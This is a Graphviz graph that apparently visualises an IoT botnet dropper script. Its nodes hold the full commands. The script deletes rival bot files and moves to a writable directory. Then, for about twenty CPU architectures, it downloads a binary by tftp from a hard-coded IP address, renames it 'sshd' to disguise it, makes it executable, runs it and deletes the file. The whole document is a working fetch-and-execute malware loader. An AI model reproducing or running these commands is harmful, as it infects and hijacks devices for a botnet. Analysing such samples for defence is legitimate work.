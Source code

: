 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="rm -fr jik* "];
2 -> 2
4 [label="rm -fr gtop.sh gtopb1.sh gtopb2.sh gtopb3.sh gtopb4.sh ftp.sh ftp0.sh ftpb1.sh ftpb2.sh ftpb3.sh ftpb4.sh tftpb1.sh tftpb2.sh ttftp1b1.sh ttftpb2.sh tttftp1b1.sh tttftp7.sh ftpm0.sh "];
4 -> 4
6 [label="rm -fr jackmy* poundmy* rapemy* smokemy* kekmy* breakmy* "];
6 -> 6
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 22 [label="||,"];
22 [label="tftp 146.185.129.74 -c get jikmips "];
22 -> 24 [label=";,"];
24 [label="cat jikmips sshd "];
24 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 50 [label="||,"];
50 [label="tftp 146.185.129.74 -c get jikmips64 "];
50 -> 52 [label=";,"];
52 [label="cat jikmips64 sshd "];
52 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 78 [label="||,"];
78 [label="tftp 146.185.129.74 -c get jikmipsel "];
78 -> 80 [label=";,"];
80 [label="cat jikmipsel sshd "];
80 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 106 [label="||,"];
106 [label="tftp 146.185.129.74 -c get jiksh2eb "];
106 -> 108 [label=";,"];
108 [label="cat jiksh2eb sshd "];
108 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 134 [label="||,"];
134 [label="tftp 146.185.129.74 -c get jiksh2elf "];
134 -> 136 [label=";,"];
136 [label="cat jiksh2elf sshd "];
136 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 162 [label="||,"];
162 [label="tftp 146.185.129.74 -c get jiksh4 "];
162 -> 164 [label=";,"];
164 [label="cat jiksh4 sshd "];
164 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 190 [label="||,"];
190 [label="tftp 146.185.129.74 -c get jikx86 "];
190 -> 192 [label=";,"];
192 [label="cat jikx86 sshd "];
192 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 218 [label="||,"];
218 [label="tftp 146.185.129.74 -c get jiki486 "];
218 -> 220 [label=";,"];
220 [label="cat jiki486 sshd "];
220 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 246 [label="||,"];
246 [label="tftp 146.185.129.74 -c get jiki586 "];
246 -> 248 [label=";,"];
248 [label="cat jiki586 sshd "];
248 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 274 [label="||,"];
274 [label="tftp 146.185.129.74 -c get jiki686 "];
274 -> 276 [label=";,"];
276 [label="cat jiki686 sshd "];
276 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 302 [label="||,"];
302 [label="tftp 146.185.129.74 -c get jikpowerpc "];
302 -> 304 [label=";,"];
304 [label="cat jikpowerpc sshd "];
304 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 330 [label="||,"];
330 [label="tftp 146.185.129.74 -c get jikpowerpc440fp "];
330 -> 332 [label=";,"];
332 [label="cat jikpowerpc440fp sshd "];
332 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 358 [label="||,"];
358 [label="tftp 146.185.129.74 -c get jikm86k "];
358 -> 360 [label=";,"];
360 [label="cat jikm86k sshd "];
360 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 386 [label="||,"];
386 [label="tftp 146.185.129.74 -c get jiksparc "];
386 -> 388 [label=";,"];
388 [label="cat jiksparc sshd "];
388 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 414 [label="||,"];
414 [label="tftp 146.185.129.74 -c get jikarmv4 "];
414 -> 416 [label=";,"];
416 [label="cat jikarmv4 sshd "];
416 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 442 [label="||,"];
442 [label="tftp 146.185.129.74 -c get jikarmv4tl "];
442 -> 444 [label=";,"];
444 [label="cat jikarmv4tl sshd "];
444 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 470 [label="||,"];
470 [label="tftp 146.185.129.74 -c get jikarmv5 "];
470 -> 472 [label=";,"];
472 [label="cat jikarmv5 sshd "];
472 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
509 [label="rm -rf sshd "];
509 -> 484 [label=";,"];
484 [label="cd /tmp "];
484 -> 484
486 [label="cd /var/system "];
486 -> 488 [label="||,"];
488 [label="cd /mnt "];
488 -> 490 [label="||,"];
490 [label="cd /lib "];
490 -> 492 [label="||,"];
492 [label="cd /etc "];
492 -> 494 [label="||,"];
494 [label="cd /proc "];
494 -> 496 [label="||,"];
496 [label="cd /usr "];
496 -> 498 [label="||,"];
498 [label="tftp 146.185.129.74 -c get jikarmv6 "];
498 -> 500 [label=";,"];
500 [label="cat jikarmv6 sshd "];
500 -> 502 [label=";,"];
502 [label="sshd "];
502 -> 502
504 [label="chmod 777 sshd "];
504 -> 506 [label=";,"];
506 [label="chmod +x sshd "];
506 -> 508 [label="||,"];
508 [label="./sshd "];
508 -> 509 [label=";,"];
}
